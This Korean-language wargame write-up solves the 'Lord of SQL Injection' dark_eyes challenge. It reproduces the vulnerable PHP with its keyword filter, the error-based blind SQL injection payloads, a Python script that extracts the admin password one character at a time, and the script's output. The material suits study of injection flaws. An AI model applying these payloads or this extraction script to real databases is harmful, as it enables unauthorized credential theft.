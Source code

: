 ```yaml
---
title: "[Lord of SQL Injection] LoS - dark_eyes 문제풀이"
date: 2018-08-22
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번에도 역시 `Error`를 기반으로 한 `Error Based Blind SQL Injection` 이다.
그런데 이번에는 이 전 문제랑은 약간 다르다.

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

이 전 문제에서 사용했던 `if`가 필터링 대상에 들어가 있고, `if`를 대체할 수 있는 `case`나 `when`도 필터링한다.
즉, 조건문을 사용할 수가 없다.
그래서 내가 처음에 생각했던 방법은 `and`와 `or`을 적절히 이용하는 것이다.
만약에 `1 or 0`이라는 조건이 있다면, 앞의 `1`이 이미 참이기 때문에 뒤의 `0`은 체크하지 않는다고 생각했다.
반면 `0 or 1`이라면, 앞의 `0`이 거짓이기 때문의 뒤의 `1`을 체크하는 것이다.
그래서 앞에 `pw`의 길이와 내용을 알기 위한 쿼리를 넣고 뒤에 에러를 유발하는 쿼리문을 넣는다면, 앞의 조건이 참이라면 뒤의 에러 유발용 쿼리가 실행되지 않아 정상적으로 페이지가 보일 것이라고 생각했던 것이다.
그런데 음... 내가 뭘 잘못 한 것인지 이건 아무리 해도 안됬다.

정확히는 쿼리 스트링을 `pw=1' or id='admin' and ord('a')=97 or 9e307*2`를 넣으면 앞의 `id='admin' and ord('a')=97`가 참이기 때문에 뒤의 `9e307*2`에 대해서 에러가 발생하지 않는다.
(9e307은 MySQL에서의 최대값이기 때문에 9e307*2를 하면 `DOUBLE value is out of range in '(9e307 * 2)'`라는 에러가 발생한다.)
그런데 `pw=1' or id='admin' and length(pw)>0 or 9e307*2`을 넣으면 무슨 조건을 넣더라도 무조건 에러가 나왔다.
왜 이러는지 이유를 모르겠다 ㅠㅠ
그래서 결국 다른 방법을 찾아보아서 아래와 같이 쿼리 스트링을 구성 해 문제를 풀었다.  

```plain
?pw=1' or id='admin' and (select 1 union select (length(pw)=1))#
```

이렇게 하면 만약 `length(pw)=1`이 참이라면 `1`을 반환하기 때문에 `select 1 union select 1`이 되어 한 행만 결과로 나온다.
하지만 거짓이라면 `select 1 union select 0`을 하게 되면, 2개의 행을 반환하기 때문에 `Subquery returns more than 1 row`라는 오류를 출력한다.
이를 바탕으로 `pw`를 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and (select 1 union select (length(pw)=" + str(i) + "))%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'select id from prob_dark_eyes' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and (select 1 union select (ord(substr(pw, " + str(j) + ", 1))=" + str(i) + "))%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'select id from prob_dark_eyes' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 소문자와 숫자로 구성 된 8자리 `pw`값을 얻을 수 있었다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 5a
[+] Found 3 : 5a2
[+] Found 4 : 5a2f
[+] Found 5 : 5a2f5
[+] Found 6 : 5a2f5d
[+] Found 7 : 5a2f5d3
[+] Found 8 : 5a2f5d3c
[+] Found password :  5a2f5d3c
[+] End
```

이 값을 쿼리스트링으로 넘겨주면 문제를 풀 수 있다.  

```plain
?pw=5a2f5d3c
```

---

```php
----------------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw='5a2f5d3c'
----------------------------------------------------------------------------------------------------

DARK_EYES Clear!
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

---

```plain
DARK_EYES Clear!!
```